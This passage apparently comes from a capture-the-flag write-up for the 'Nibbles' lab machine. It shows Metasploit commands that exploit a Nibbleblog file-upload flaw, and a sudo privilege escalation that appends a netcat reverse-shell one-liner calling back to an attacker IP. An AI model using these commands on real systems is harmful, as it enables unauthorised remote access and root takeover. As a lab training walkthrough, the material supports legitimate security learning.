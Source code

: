 ```bash
# Launching metasploit
msfconsole -q
# Searching for the nibbleblog module
msf6 > search nibbleblog
# Using the module
msf6 > use 0
# Seeing its configuration options
msf6 exploit(multi/http/nibbleblog_file_upload) > show options
# Configuring the module
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.10.10.75
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost tun0
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog/
msf6 exploit(multi/http/nibbleblog_file_upload) > run
```

<figure><img src="../../.gitbook/assets/nibbles_meterpreter.png" alt=""><figcaption><p>Figure 8: Catching a meterpreter shell.</p></figcaption></figure>

{% hint style="info" %}
Check the [Beyond Root](nibbles.md#beyond-root) section for another way of getting a reverse shell.
{% endhint %}

## Privilege Escalation

### Sudo Exploitation

One of the first things we always do upon establishing our foothold, is checking if the compromised user can run anything with elevated privileges (`sudo`) (Figure 9.2). In this case, the `nibbler` user seems to be able to execute `monitor.sh`, which is located within the `zip` file at its home directory (Figure 9.3-9.5).&#x20;

Next, we can generate (Figure 10) and append a one-liner reverse shell at the `monitor.sh` script (Figure 9.6), start a listener on our attack host (Figure 9.8), and then execute the script with `sudo` using its full path (Figure 9.9). Since, the script will run with elevated privileges, we will be able to catch a root shell and read the `root.txt` flag 🚩(Figure 9.10).&#x20;

{% code overflow="wrap" %}
```bash
# drop into a shell
meterpreter > shell
# check sudo permissions
sudo -l
# unzip the file
unzip personal.zip
# move into the script's directory
cd personal/stuff
# append the reverse shell code to the script
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.13 1337 >/tmp/f' >> monitor.sh
# execute the script as sudo
sudo /home/nibbler/personal/stuff/monitor.sh
```
{% endcode %}
